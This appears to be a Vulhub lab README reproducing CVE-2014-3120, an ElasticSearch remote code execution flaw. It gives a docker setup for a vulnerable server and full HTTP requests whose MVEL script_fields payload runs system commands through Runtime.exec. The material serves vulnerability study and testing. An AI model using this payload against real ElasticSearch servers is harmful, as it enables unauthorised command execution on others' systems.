 # ElasticSearch Remote Code Execution (CVE-2014-3120)

[中文版本(Chinese version)](README.zh-cn.md)

ElasticSearch is a distributed, RESTful search and analytics engine.

The default configuration in Elasticsearch before 1.2 enables dynamic scripting, which allows remote attackers to execute arbitrary MVEL expressions and Java code via the source parameter to `_search`.

Here's an example of MVEL code that executes system commands:

```java
import java.io.*;
new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
```

References:

- <https://bou.ke/blog/elasticsearch-rce/>
- <https://www.exploit-db.com/exploits/33370>

## Vulnerability Reproduction

Execute the following commands to start a vulnerable ElasticSearch server 1.1.1:

```
docker compose up -d
```

After the server starts, you can access the ElasticSearch API at `http://your-ip:9200`.

## Exploitation

The exploit requires at least one document in the index. First, create a document:

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "vulhub"
}
```

Then, send a request containing the malicious MVEL script to execute arbitrary commands:

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

The command execution result will be returned in the response:

![](1.png)
